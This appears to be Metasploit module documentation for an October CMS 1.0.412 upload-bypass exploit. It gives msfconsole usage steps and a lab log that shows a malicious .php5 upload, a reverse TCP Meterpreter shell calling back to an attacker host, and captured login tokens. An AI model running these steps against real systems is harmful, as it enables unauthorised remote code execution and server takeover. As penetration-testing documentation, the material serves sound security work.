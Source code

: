 ## Description

  An authenticated user with permission to upload and manage media contents can
  upload various files on the server. The application prevents the user from
  uploading PHP code by checking the file extension. It uses blacklist based
  approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
  Definitions.php:blockedExtensions().

## Vulnerable Software

  https://www.exploit-db.com/apps/4ff8a9688f31b7338020d0bc85da13fc-october-1.0.412.tar.gz

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/october_upload_bypass_exec```
  4. Do: ```set RHOSTS <ip>``
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. You should get a shell.

## Verification

  ```
  msf5 > use exploit/multi/http/october_upload_bypass_exec
  msf5 exploit(multi/http/october_upload_bypass_exec) > set rhosts 10.10.10.16
  rhosts => 10.10.10.16
  msf5 exploit(multi/http/october_upload_bypass_exec) > setg verbose true
  verbose => true
  msf5 exploit(multi/http/october_upload_bypass_exec) > set lhost 10.10.14.8
  lhost => 10.10.14.8
  msf5 exploit(multi/http/october_upload_bypass_exec) > run 

  [*] Started reverse TCP handler on 10.10.14.8:4444 
  [+] Token for login : 3ySsc8d8VNMm2V8x3Ns4cay05bwhRxnoIkQjRnBP
  [+] Session Key for login : uVNSZ2YRUm39cf8kqJcWV0qr9xhqq9krCYHeVI6m
  [*] Trying to Login ......
  [+] Authentication successful: admin:admin
  [*] Trying to upload malicious WLMVDKmVpCX.php5 file ....
  [*] Sending stage (38247 bytes) to 10.10.10.16
  [*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.16:54124) at 2019-09-03 12:19:20 +0530
  [+] Deleted WLMVDKmVpCX.php5

  meterpreter > sysinfo 
  Computer    : october
  OS          : Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686
  Meterpreter : php/linux
  meterpreter > 
  ```
